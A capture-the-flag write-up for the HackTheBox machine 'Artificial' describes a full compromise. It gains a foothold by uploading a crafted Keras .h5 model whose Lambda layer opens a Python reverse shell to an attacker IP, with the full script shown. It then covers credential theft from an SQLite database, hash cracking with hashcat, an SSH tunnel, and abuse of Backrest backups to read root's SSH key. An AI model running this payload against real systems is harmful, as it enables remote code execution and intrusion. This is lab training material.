


# Artificial : Writeup
### Difficulty: Easy
### OS: Linux

Lets start the attack proccess on the box. From HTB, we got the ip `10.10.11.74`.\
For starters, we begin with the basic scan: nmap\
\
From this we can see that there is an http server running on port 80 and that it did not follow redirect to `artificial.htb`.\
So let's add the artificial.htb to our `/etc/hosts` by running `sudo nano /etc/hosts`\
and writing the following at the end of the file.\
\
then save and exit with : ^O , enterkey and ^X .\
Now, when we visit the site, we will be in.\
\
TADAAAAA!\
Now.. back to the game... moving forward,\
we can see the options login,register etc... explore them and be sure to check the source codes of every pages. After many failed attempts of default credential checking and SQL injection checking on the login page, i decided to register an account.\
\
Then i logged in with those creds.\
\
Once logged in, we can see an upload page/section for modules and a requirements.txt which when opened had `tensorflow-cpu==2.13.1`\
And the upload format was .h5,\
\
With some research, I found out that, Im looking at a malicious model **RCE vector**. So I basically need to craft a `.h5` file with a **Lambda layer** that runs arbitrary Python code when loaded.\
So lets write a `mmo.py` file like this
```python
import tensorflow as tf
from tensorflow import keras
from tensorflow.keras import layers
import tensorflow.keras.backend as K

def harmless_func(x):
    socket=__import__("socket");
    subprocess=__import__("subprocess");
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
    s.connect(("10.10.16.75",4444));
    subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())
    return x

inp = keras.Input(shape=(1,))
out = layers.Lambda(harmless_func)(inp)
model = keras.Model(inputs=inp, outputs=out)

model.save("ploit.h5")
print("[+] ploit.h5 created.")

```
Then run the following
```bash
pip install tensorflow==2.13.1
chmod +x mmo.py
python mmo.py
```

then we ll get an `.h5` file with the payload for a rev shell.\
All we have to do now is set up a listener and upload the .h5, click on `view predictions`\
\
\
now lets check who the user foothold is...\
I usually do this in 2 ways

- `ls /home` this will have the user home folder.
- `cat /etc/passwd | grep bash` this will print all users with a valid shell..

In most cases these are only root,user,app/xwiki/www-data etc.\
After checking we can see that the user we have to get in is `gael`. 


So lets check for creds first. And while i was searching, found users.db in instance.\
\
so lets check it out for any creds. Before that we have to verify the sql type for it.\
\
We can see that this is an SQlite db. so lets access it and check it out.\
\
and with that we have a password for the user gael. Now we need to decrypt it. \
For that the most simple and reliable site is `crackstation.net`. It offers a huge collection of hashes and passwords.\
\
and it didnt disappoint me this time either. We got the pass `mattp005numbertwo` for the user `gael`.\
Lets try to ssh into the system as gael. And we are successful\
\
now we got the userflag: `user.txt` \
Our next goal is to obtain root. When i checked the id of gael, he was in the group `sysadm` which made me supicious.\
\
so, to find stuff by sysadm, i ran `find / -group sysadm 2>/dev/null`\
\
I copied the tar to `/tmp` and checked what file it was and found that it was actally just tar so I extracted it there.\
\
While i was checking  the extracted files, i found my next gem, another cred\
\
`backrest_root` and `JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP`\
Here, we can see that it is a bcrypt, so lets decrypt it with hascat.\
The command i used is `hashcat -m 3200 backrest.hash /usr/share/wordlists/rockyou.txt`\
\
The bruteforcing only took 1 min or so.\
I obtained the password `!@#$%^`\
Now we need to look at the backrest program and find where it is being run on, so i ran 
- `ps aux | grep -i backrest` 
- `ss -tulpn 2>/dev/null | grep -i backrest || ss -tulpn 2>/dev/null | grep -E '127.0.0.1|localhost'`

\
When i ran `grep -R "http" backrest/ | less` I got this output.\
\
Which indicated that the backrest is running in the port `9898`.\
Lets start a tunnel to access it with ssh\
`ssh -L 9898:127.0.0.1:9898 gael@10.10.11.74`\
\
With this we can now view it from out browser.\
We login with the cred we found earlier (backrest_root:!@#$%^) and tadaa! we are in.\
\
When i looked into this, i figured out what we need to do.\
Since we are logged in as root, we need to create backup of `/root/.ssh/id_rsa` and print it into a file we can read.\
For that, we create a repo(any name or path).\
\
First, we make a .`txt` file and give it permissions(file to recieve the id_rsa)\
\
And run the following commands in the repo
- `backup /root/.ssh/id_rsa` this backups the file to the repo. We should note the snapshot id.


- `dump -t /home/gael/mm.txt SNAPSHOTID /root/.ssh/id_rsa` this prints the content of `id_rsa` to the `mm.txt`.

\
Now if we try to cat the mm.txt, we can see that it worked like a charm.\
\
Now on our attack machine, in another terminal, we create a duplicate `id_rsa` and write the contents of this into it.\
\
\
Now we change the permissions of the fake `id_rsa` and `ssh` into the box as `root` with \
`ssh root@10.10.11.74 -i id_rsa`\
\
With that, we have obtained the root and we can cat the root flag now.

## Takeaways
- Always inspect uploaded files; malicious formats like `.h5` can lead to code execution.
- Databases and config files often store **plaintext creds** — check them early.
- Group memberships (`id`, `groups`) can reveal **hidden privilege paths**.
- Backup services (like Backrest) are juicy targets since they handle **sensitive files**.
- Tunneling (`ssh -L`) is key for reaching **internal-only services**.
- Don’t just look for SUID binaries — also hunt for **files owned by special groups**.
- Backups can leak **root access keys**, so always inspect them thoroughly.